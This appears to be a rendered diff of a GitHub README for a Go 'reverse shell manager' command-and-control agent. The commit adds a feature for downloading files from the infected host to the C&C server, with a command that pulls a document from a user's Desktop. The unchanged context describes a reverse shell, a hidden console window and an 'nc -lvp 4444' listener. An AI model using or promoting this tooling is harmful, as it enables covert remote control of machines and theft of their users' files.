

Before and after one commit to JeanBonBeurre34/cc-agent, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update README.md download func
As user i can follow the instruction to download file from my remote host

````diff
--- a/README.md
+++ b/README.md
@@ -11,6 +11,7 @@ The Go Reverse Shell Manager is a comprehensive solution designed to facilitate
 - **Reverse Shell Capability**: Open a reverse shell to a specified listener, allowing for interactive command execution.
 - **Result Reporting**: Automatically sends the execution results of commands back to the server.
 - **Hide Console Window**: Optionally runs without a visible console window to reduce footprint on the host system.
+- **Download file on the remote host**: Download file from the host where the agent is running
 
 ## Installation
 
@@ -93,6 +94,14 @@ Ensure you have a listener running on the specified port before initiating the r
 nc -lvp 4444
 ```
 
+### Download file from the remote host
+The C&C support downloading file from the remote host.
+To initiate a file to be downloaded just specify the path to the file on the remote host and the filename:
+```bash
+python client.py "download c:\Users\vboxuser\Desktop\document.docx document.docx"
+```
+The file will be downloaded on the C&C server and stored on inside a local folder named received_file.
+
 ### Agent operation
 The Go agent, once started, will periodically check the server for commands to execute. If the "shell" command is received, it will attempt to establish a reverse shell connection to the listener address.
 
````
